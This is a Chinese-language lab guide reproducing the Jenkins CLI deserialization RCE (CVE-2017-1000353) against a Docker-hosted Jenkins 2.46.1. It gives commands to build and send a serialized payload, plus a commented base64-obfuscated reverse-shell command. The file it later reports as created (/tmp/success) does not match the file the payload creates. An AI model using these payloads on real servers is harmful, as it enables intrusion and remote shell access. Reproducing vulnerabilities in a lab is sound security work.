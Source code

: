 # Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的 Java SignedObject 对象，传输到基于远程处理的 Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

Vulhub 执行如下命令启动 jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问 `http://your-ip:8080` 即可看到 jenkins 已成功运行，无需手工安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```shell
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/awesome_poc"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令

# REVERSE SHELL
# java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar revshell.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

**注意**：生成 payload 时的 Java 版本很重要，建议使用 OpenJDK 8u292 版本。其他版本的 Java 可能导致生成的 payload 无法成功利用。如果遇到问题，可以使用以下命令在 Docker 中生成 payload：

```shell
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/awesome_poc\""
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，执行 `python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20250526111839874.png)

进入 docker，发现 `/tmp/success` 成功被创建，说明命令执行漏洞利用成功：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20250526111826279.png)
